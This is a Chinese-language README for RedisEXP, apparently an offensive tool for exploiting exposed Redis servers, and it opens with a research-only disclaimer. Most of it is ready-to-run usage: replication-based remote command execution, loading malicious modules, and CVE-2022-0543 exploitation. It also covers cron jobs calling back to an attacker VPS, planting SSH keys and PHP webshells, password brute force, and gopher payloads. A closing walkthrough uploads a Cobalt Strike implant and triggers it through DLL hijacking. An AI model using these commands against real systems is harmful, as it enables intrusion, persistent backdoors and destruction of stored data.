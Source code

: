 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**详细命令使用： `-h` 查看**


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

执行Redis命令：
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info

加载dll或so执行命令：
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec

主从复制命令执行：
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so

主从复制上传文件：
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md

主动关闭主从复制：
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码

写计划任务：
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001

写SSH 公钥：
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa

写webshell：
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b

CVE-2022-0543：
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令

爆破Redis密码：
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f pass.txt

生成gohper：
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件

执行 bgsave：
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码

判断文件（需要绝对路径）：
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini

```



1. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。

2. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码

3. 有空格的目录或文件同时使用双引号和单引号  `"'a b'"` 

4. 关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)

   ```
   config set rdbcompression no
   ```

   

5. `stop-writes-on-bgsave-error` 默认为 `yes`, 如果 Redis 开启了 RDB 持久化并且最后一次失败了，Redis 默认会停止写入，让用户意识到数据的持久化没有正常工作。临时的解决方案是 `conf set stop-writes-on-bgsave-error` 设置为 no，只是让程序暂时忽略了这个问题，但是数据的持久化的问题并没有。（工具会默认设置为 `no` ，等工具退出的时候再重新设置回原来的值`yes`）

   ```
   config set stop-writes-on-bgsave-error no
   ```

   



### dll 劫持

利用dbghelp.dll：[https://github.com/P4r4d1se/dll_hijack](https://github.com/P4r4d1se/dll_hijack)

```
上传 cs 马
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp c:\users\public -rf test.exe  -lf artifact.exe

上传 dbghelp.dll 到 redis-server.exe 所在目录进行劫持
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp . -rf dbghelp.dll  -lf dbghelp.dll

触发dll劫持
.\RedisEXP.exe -m bgsave -r 127.0.0.1 -p 6378 -w 123456
```



### 生成gohper

```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```

写shell模板

```
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
```



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



